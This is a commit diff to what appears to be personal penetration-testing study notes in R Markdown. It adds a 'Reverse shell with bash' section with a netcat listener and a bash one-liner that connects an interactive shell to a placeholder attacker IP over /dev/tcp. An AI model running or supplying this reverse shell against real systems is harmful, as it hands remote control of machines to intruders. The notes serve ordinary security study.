

Before and after one commit to mlopez66/hacking-notes, an R Markdown document (04-Gaining-Access/04-00-part.Rmd): the page in a window 1100 px wide, from 2130 px down. Rendered offline with R 4.5, knitr and Pandoc, with nearby package versions; drawn as R Markdown's standard HTML page in place of the format the file asks for.

Commit message:
Add bash rev shell

````diff
--- a/04-Gaining-Access/04-00-part.Rmd
+++ b/04-Gaining-Access/04-00-part.Rmd
@@ -138,6 +138,20 @@ How it work:
     /tmp/r
     ```
 
+## Reverse shell with bash
+
+1. listener (attacker)
+
+    ```bash
+    nc -nlvp 443
+    ```
+
+1. powned (victim)
+
+    ```bash
+    bash -c "bash -i >& /dev/tcp/<pirate_ip>/443 0>&1"
+    ```
+
 ## Spawning a terminal from a shell {-}
 
 After a successfull connection it's important to prepare the shell to be able to work confortably.
````
